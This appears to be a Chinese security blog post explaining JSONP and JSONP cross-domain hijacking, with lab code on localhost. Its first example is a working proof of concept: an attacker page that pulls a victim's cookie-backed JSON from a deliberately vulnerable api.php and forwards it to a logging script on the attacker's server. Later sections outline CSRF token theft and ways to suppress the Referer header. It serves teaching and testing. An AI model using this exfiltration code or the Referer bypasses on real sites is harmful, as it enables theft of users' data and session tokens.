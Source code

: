 ```yaml
---
layout:     post
title:      jsonp漏洞
date:       2018-12-28
author:     Wh0ale
header-img: img/homesick_by_wlop-d8vlh61.jpg
catalog: true
tags:
    - csrf
---
```


JSONP 由两部分组成：**回调函数**和**数据**。回调函数是当响应到来时应该在页面中调用的函数。回调函数的名字一般是在请求中指定的。而数据就是传入回调函数中的 JSON 数据。

动态创建`<script>`标签，设置其src，回调函数在src中设置：

```
var script = document.createElement("script");
script.src = "https://api.douban.com/v2/book/search?q=javascript&count=1&callback=handleResponse";
document.body.insertBefore(script, document.body.firstChild);
```

在页面中，返回的JSON作为参数传入回调函数中，我们通过回调函数来来操作数据。

```
function handleResponse(response){
    // 对response数据进行操作代码
}
```

**上面是简单直接的对JSONP 的描述，可能有些人不是很懂，我们下面一步一步分析**

**第一种**

① 用户携带cookie访问放置在黑客服务器的页面

jsonp.html

```
<script type="text/javascript" src="http://www.w3school.com.cn/jquery/jquery-1.11.1.min.js"></script>

<script type="text/javascript">

$.getJSON("http://127.0.0.1/csrf/api.php?calback=?", function(json){
	// 这里填写目标接口

var data=JSON.stringify(json);

$.get("http://127.0.0.1/csrf/log.php?mylogs="+data,function(res,status){
//将data转发记录,访问log.php
//注意 这里写的是黑客vps的ip，由于是测试，我写127.0.0.1

alert ('ok') ;
//如果返回的jsonp的json数组，不是一个json对象。
//使用 alert(result[0].admin)

});
});
</script>
```

```
<!-- 引用一段如上请求为JS -->
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="http://gh0st.cn/user/center?callback=jsonp2"></script>
```

api.php

这里模拟靶机的接口

```
<?php
header('Content-type:application/json');
echo $_GET['callback']."({\"admin\":\"".$_COOKIE['admin']."\"})"
?>
```

log.php

将json数据转存

```
<?php
	$time = date("Y_m_d_h_i_s");
	$filename = $time."_".rand(1,29999).".txt";
	$log = $_GET[mylogs];
	$httpheader = "HTTP_HEADER\r\n";
	foreach (getallheaders() as $name => $value){
		$httpheader = $httpheader."$name: $value\r\n";
	}
	echo file_put_contents(filename, $httpheader."\r\n".$log);

?>
```

②凡访问加载这个poc的页面的用户，他的投诉记录都会被我直接劫持，并且做记录



之前在cors漏洞写到的开源脚本在这也可以配合使用

接下来准备深入挖掘csrf类的漏洞

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fylhxn4c2qj211z0ikacc.jpg)

**第二种**

2.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>GoJSONP</title>
</head>
<body>
<script type="text/javascript">
    function jsonhandle(data){
        alert("age:" + data.age + "name:" + data.name);
    }
</script>
<script type="text/javascript" src="jquery-3.3.1.min.js">
</script>
<script type="text/javascript" src="http://127.0.0.1/jsonp/remote.js"></script>
</body>
</html>
```

remote.js

```javascript
jsonhandle({
    "age" : 15,
    "name": "John",
})
```

**注意：远程的js 代码不需要script标签**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvxq4new6j20sa0fnjs4.jpg)

**第三种**

**用下面的代码模jsonp的调用过程方便大家更好的理解jsonp的运行过程**

3.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>GoJSONP</title>
</head>
<body>
<script type="text/javascript">
    function jsonhandle(data){
        alert("age:" + data.age + "name:" + data.name);
    }
</script>
<script type="text/javascript" src="jquery-3.3.1.min.js">
</script>
<script type="text/javascript">
    $(document).ready(function(){
        var url = "http://127.0.0.1/jsonp/test1.php?id=1&callback=jsonhandle";
        var obj = $('<script><\/script>');
        obj.attr("src",url);
        $("body").append(obj);
    });
</script>
</body>
</html>
```

test1.php

```php
<?php
$data = array(
    'age' => 20,
    'name' => 'dada',
);

$callback = $_GET['callback'];

echo $callback."(".json_encode($data).")";
return;
```

`http://127.0.0.1/jsonp/test1.php?id=1&callback=jsonhandle`

我们在scipt标签里面给出的链接是我远程服务器的一个php的代码，我给这个文件传递了一个参数，作为我要调用的函数。服务器接收到这个参数以后把它当做函数名，并给这个函数传递了一个json的值作为用户调用的函数的参数，最终实现调用



**JSONP攻击**

**1.JSONP 跨域劫持**

实际上就是由于服务器端对JSONP 的请求来源的检查不严格导致的

攻击者模拟用户向有漏洞的服务器发送JSONP请求，然后就获取到了用户的某些信息，再将这些信息发送到攻击者可控的服务器

**2.JSONP 跨域劫持token 实现CSRF**

通过 jsonp 发起请求，得到泄露的 csrf_token 然后，利用这个token 实现CSRF 攻击

**3.Referer 头的绕过**

在攻击过程中可能会涉及到 referer 头的绕过

1. data:URL
   为了逃避他的检测我们可以选择不发送referer这个头，那么怎么做呢？这就涉及到 data:URL 头

为了构造一个不带HTTP Referer的请求，我们可以滥用data URI方案。因为我们正在处理的代码包含了引号，双引号，以及其他一些被阻止的语句，接着使用base64编码我们的payload（回调函数定义以及脚本包含）
data:text/plain;base64our_base64_encoded_code:

以下3个HTML标签允许我们使用data URI方案：

```
iframe (在src属性中) – Internet Explorer下不工作
embed (在src属性中) – Internet Explorer及Microsoft Edge下不工作
object (在data属性中) – Internet Explorer及Microsoft Edge下不工作
```

2.从HTTPS向HTTP发起请求

如果目标网站可以通过HTTP访问，也可以通过将我们的代码托管在一个HTTPS页面来避免发送HTTP Referer。如果我们从HTTPS页面发起一个HTTP请求，浏览器为了防止信息泄漏是不会发送Referer header。以上我们要将恶意代码托管在一个启用了HTTPS的站点。
注意：由于mixed-content安全机制，在浏览器默认设置下是不会工作的。需要受害者手动允许浏览器发出的安全警告。









Reference：
[http://www.admintony.com/csrf-and-json.html](http://www.admintony.com/csrf-and-json.html)

http://www.k0rz3n.com/2018/06/05/%E7%94%B1%E6%B5%85%E5%85%A5%E6%B7%B1%E7%90%86%E8%A7%A3JSONP%E5%B9%B6%E6%8B%93%E5%B1%95/